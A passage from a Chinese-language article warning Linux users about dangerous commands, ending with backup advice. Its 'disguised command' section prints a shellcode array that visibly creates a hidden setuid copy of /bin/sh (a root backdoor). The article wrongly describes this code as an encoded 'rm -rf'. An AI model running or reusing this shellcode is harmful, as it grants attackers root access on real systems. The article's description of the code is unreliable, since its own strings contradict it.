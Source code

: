 这样的命令会在你的系统中下载并运行恶意脚本，这可能会破坏你的系统的安全性。


### 10、伪装的命令


在 Linux 终端中，有许多方法可以运行命令。其中一种方式是十六进制编码的命令：



```
char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68”
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99”
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7”
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56”
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31”
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69”
“\x6e\x2f\x73\x68\x00\x2d\x63\x00”
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;

```

虽然它看起来很花哨，但这是 `rm -rf` 命令的一个编码版本。它的效果与运行前面的命令相同。因此，在从互联网上复制和粘贴这些花哨的命令时，要小心谨慎。


### 总结


![pebkac](/data/attachment/album/202209/12/184724b1qmm5qmmeb3oge7.jpg)


有一个著名的计算机术语 PEBKAC：“<ruby> 问题存在于键盘和椅子之间 <rt>  problem exists between keyboard and chair </rt></ruby>”。


因为归根结底，还是要靠用户（你）来保证你不会因为盲目地运行任何危险的命令而破坏系统。



> 
> UNIX 的工作不是要阻止你搬起石头砸你自己的脚。如果你选择这样做，那么 UNIX 的工作就是以它所知道的最有效的方式将石头砸到脚上。
> 
> 
> 


而这句话同样适用于 Linux。你可以完全控制你的操作系统。你选择做什么，完全取决于你。


我建议做这些事情以确保更安全的体验。


* 尝试并理解你将要运行的命令。
* 用 Timeshift 保持你的系统设置的备份
* 用 DejaDup 保持个人数据（主目录）的备份


正如我所说，没有固定的危险 Linux 命令清单。还有很多可以添加到这个列表中，而且根本没有尽头。
